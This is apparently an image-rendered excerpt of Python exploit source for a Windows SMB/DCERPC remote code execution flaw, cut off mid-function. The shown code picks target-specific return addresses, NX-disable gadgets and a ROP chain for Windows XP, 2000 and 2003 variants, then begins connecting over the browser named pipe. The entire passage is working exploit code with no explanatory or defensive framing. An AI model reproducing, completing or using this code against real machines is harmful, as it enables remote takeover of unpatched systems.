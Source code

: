 ```python

    def __DCEPacket(self):
        if (self.os == '1'):
            print('Windows XP SP0/SP1 Universal\n')
            ret = "\x61\x13\x00\x01"
            jumper = nonxjmper % (ret, ret)
        elif (self.os == '2'):
            print('Windows 2000 Universal\n')
            ret = "\xb0\x1c\x1f\x00"
            jumper = nonxjmper % (ret, ret)
        elif (self.os == '3'):
            print('Windows 2003 SP0 Universal\n')
            ret = "\x9e\x12\x00\x01"  # 0x01 00 12 9e
            jumper = nonxjmper % (ret, ret)
        elif (self.os == '4'):
            print('Windows 2003 SP1 English\n')
            ret_dec = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
            ret_pop = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
            jmp_esp = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
            disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
            jumper = disableNXjumper % (
                ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)
        elif (self.os == '5'):
            print('Windows XP SP3 French (NX)\n')
            ret = "\x07\xf8\x5b\x59"  # 0x59 5b f8 07
            disable_nx = "\xc2\x17\x5c\x59"  # 0x59 5c 17 c2
            # the nonxjmper also work in this case.
            jumper = nonxjmper % (disable_nx, ret)
        elif (self.os == '6'):
            print('Windows XP SP3 English (NX)\n')
            ret = "\x07\xf8\x88\x6f"  # 0x6f 88 f8 07
            disable_nx = "\xc2\x17\x89\x6f"  # 0x6f 89 17 c2
            # the nonxjmper also work in this case.
            jumper = nonxjmper % (disable_nx, ret)
        elif (self.os == '7'):
            print('Windows XP SP3 English (AlwaysOn NX)\n')
            rvasets = {'call_HeapCreate': 0x21286, 'add eax, ebp / mov ecx, 0x59ffffa8 / ret': 0x2e796, 'pop ecx / ret': 0x2e796 + 6,
                'mov [eax], ecx / ret': 0xd296, 'jmp eax': 0x19c6f, 'mov [eax+8], edx / mov [eax+0xc], ecx / mov [eax+0x10], ecx / ret': 0x10a56, 'mov [eax+0x10], ecx / ret': 0x10a56 + 6, 'add eax, 8 / ret': 0x29c64}
            # the nonxjmper also work in this case.
            jumper = generate_rop(rvasets) + "AB"
        else:
            print('Not supported OS version\n')
            sys.exit(-1)

        print('[-]Initiating connection')

        # MORE MODIFICATIONS HERE #############################################################################################

        if (self.port == '445'):
            self.__trans = transport.DCERPCTransportFactory('ncacn_np:%s[\\pipe\\browser]' % self.target)
        else:
            # DCERPCTransportFactory doesn't call SMBTransport with necessary parameters. Calling directly here.
            # *SMBSERVER is used to force the library to query the server for its NetBIOS name and use that to 
            #   establish a NetBIOS Session.  The NetBIOS session shows as NBSS in Wireshark.

```